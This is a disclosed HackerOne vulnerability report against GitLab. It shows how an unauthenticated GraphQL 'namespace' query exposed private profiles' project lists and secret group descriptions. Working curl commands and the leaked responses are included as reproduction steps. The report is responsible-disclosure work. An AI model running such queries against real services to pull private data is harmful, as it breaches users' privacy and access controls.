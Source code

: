 # GraphQL query "namespace" leaks data

## Report Details
- **Report ID**: 614355
- **URL**: https://hackerone.com/reports/614355
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-14T08:05:48.976Z
- **Disclosed**: 2019-12-03T09:50:15.303Z

## Reporter
- **Username**: rpadovani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the (parenthesized) sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

### Summary

Using the "namespace" query on Graphql you can retrieve some private data that is not available through Standard API or through Web API

### Steps to reproduce
#### User namespace

1. My Gitlab profile is private: https://gitlab.com/rpadovani
2. You cannot access a list of my projects: https://gitlab.com/users/rpadovani/contributed
3. You cannot access these data through the standard APIs:
```
curl --header "PRIVATE-TOKEN: anotherUserToken" 'https://gitlab.com/api/v4/namespaces/16048'
{"message":"404 Namespace Not Found"}
```
(rpadovani user id is 16048, I used access token of another user for this curl request)
4. You can however access all these data, without any token (so no need to be registered), through Graphql:

```
curl 'https://gitlab.com/api/graphql' -H 'Content-Type: application/json' --data '{"query":"{namespace(fullPath:\"rpadovani\") {description\n requestAccessEnabled\n fullName\n fullPath\n id\n lfsEnabled\n name\n path\n visibility\n projects (includeSubgroups: true, ) {edges {node {id\n name\n archived\n visibility\n description}}}}}","variables":null,"operationName":null}' 
```
Response (omitted other 19 projects for brevity):

```
{"data":{"namespace":{"description":"","requestAccessEnabled":true,"fullName":"rpadovani","fullPath":"rpadovani","id":"gid://gitlab/Namespace/18021","lfsEnabled":true,"name":"rpadovani","path":"rpadovani","visibility":"public","projects":{"edges":[{"node":{"id":"gid://gitlab/Project/11265641","name":"737-max-8","archived":false,"visibility":"public","description":"https://737max8.com"}}, ...OMIT...     
```
 
#### Group namespace

A Graphql query on a secret group / subgroup can bring to disclose the description of the group
1. No access from GUI: https://gitlab.com/secret-group-213
2. Access through GraphQL (please notice I do not provide any access token, at all):

```
curl 'https://gitlab.com/api/graphql' -H 'Content-Type: application/json' --data '{"query":"{namespace(fullPath:\"secret-group-213\") {description\n requestAccessEnabled\n fullName\n fullPath\n id\n lfsEnabled\n name\n path\n visibility\n projects (includeSubgroups: true, ) {edges {node {id\n name\n archived\n visibility\n description}}}}}","variables":null,"operationName":null}'
```

Response:

```
{"data":{"namespace":{"description":"This description is secret!","requestAccessEnabled":false,"fullName":"secret group","fullPath":"secret-group-213","id":"gid://gitlab/Group/5337756","lfsEnabled":true,"name":"secret group","path":"secret-group-213","visibility":"private","projects":{"edges":[]}}}}
```

### Impact

This Graphql query makes the `private profile` feature quite useless, and leaks the description and some other information about private groups and subgroups.

The impact is limited because the GraphQL implementation is still at the beginning, I think that the impact of this issue would be bigger, if the GraphQL implementation was au-pair with the APIs implementation

### Examples

(If the bug is project related, please create an example project and export it using the project export feature)

(If you are using an older version of GitLab, this will also help determine whether the bug has been fixed in a more recent version)

(If the bug can be reproduced on GitLab.com without violating the `Rules of Engagement` as outlined in the program policy, please provide the full path to the project.)

### What is the current *bug* behavior?

Access data that shouldn't be accessed

### What is the expected *correct* behavior?

empty response


### Output of checks

This bug happens on GitLab.com

#### Results of GitLab environment info

## Impact

An attacker can bypass the "private profile" check, and can access metadata about secret groups

## Attachments
No attachments
